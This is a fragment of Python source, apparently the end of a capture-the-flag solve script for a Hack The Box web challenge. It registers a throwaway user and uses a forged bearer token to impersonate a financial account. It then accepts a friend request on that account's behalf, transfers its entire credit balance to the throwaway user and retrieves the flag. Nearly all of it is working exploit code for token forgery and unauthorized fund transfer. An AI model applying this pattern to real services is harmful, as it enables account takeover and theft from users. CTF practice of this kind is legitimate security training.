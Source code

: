 ```python
    else:
        print(f'Failed to make transaction to {to_email}: {r.text}')

def fetch_flag(token):
    r = requests.get(f'{HOST}/api/dashboard', headers={'Authorization': f'Bearer {token}'})
    if r.status_code == 200:
        data = r.json()
        if 'flag' in data:
            print(f'Flag: {data["flag"]}')
        else:
            print('Flag not found in the response.')
    else:
        print(f'Failed to fetch dashboard: {r.text}')

dummy_user = {'email': f'dummy{os.urandom(4).hex()}@htb.com', 'password': '123'}

register_user(dummy_user['email'], dummy_user['password'])

dummy_token = login_user(dummy_user['email'], dummy_user['password'])

if dummy_token:
    send_friend_request(dummy_token, FINANCIAL_EMAIL)

financial_token = forged_token

if financial_token:
    fetch_friend_requests(financial_token)
    accept_friend_request(financial_token, dummy_user['email'])

if financial_token and dummy_token:
    cluster_credit_balance = fetch_balance(financial_token)
    if cluster_credit_balance > 0:
        make_transaction(financial_token, dummy_user['email'], COIN_SYMBOL, cluster_credit_balance)

    fetch_flag(financial_token)
```
